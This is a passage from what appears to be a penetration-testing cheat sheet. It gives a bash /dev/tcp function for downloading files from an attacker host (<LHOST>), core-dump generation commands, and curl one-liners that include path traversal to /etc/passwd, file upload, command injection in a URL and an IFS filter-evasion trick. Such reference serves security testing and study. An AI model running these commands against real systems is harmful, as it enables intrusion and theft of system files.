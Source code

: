 #### Usage

```console
__wget http://<LHOST>/<FILE>
```

### curl Version

```bash
function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}
```

### Usage

```console
__curl http://<LHOST>/<FILE> > <OUTPUT_FILE>
```

## Core Dump

### Generate Core Dump

```console
$ kill -BUS <PROCESS_ID>
```

### Extract Core Dump

```console
$ apport-unpack /var/crash/_<PATH/TO/CRASHED/PROCESS>_<PROCESS>.1000.crash /PATH/TO/FOLDER/
```

## curl

### Common Commands

```console
$ curl -v http://<DOMAIN>                                                        // verbose output
$ curl -X POST http://<DOMAIN>                                                   // use POST method
$ curl -X PUT http://<DOMAIN>                                                    // use PUT method
$ curl --path-as-is http://<DOMAIN>/../../../../../../etc/passwd                 // use --path-as-is to handle /../ or /./ in the given URL
$ curl -s "http://<DOMAIN>/reports.php?report=2589" | grep Do -A8 | html2text    // silent mode and output conversion
$ curl -F myFile=@<FILE> http://<RHOST>                                          // file upload
$ curl "http://<RHOST>/($whoami)"                                                // execute commands
$ curl${IFS}<LHOST>/<FILE>                                                       // Internal Field Separator (IFS) example
```


[localhost]: PS C:\Users\<USERNAME>\Documents> whoami
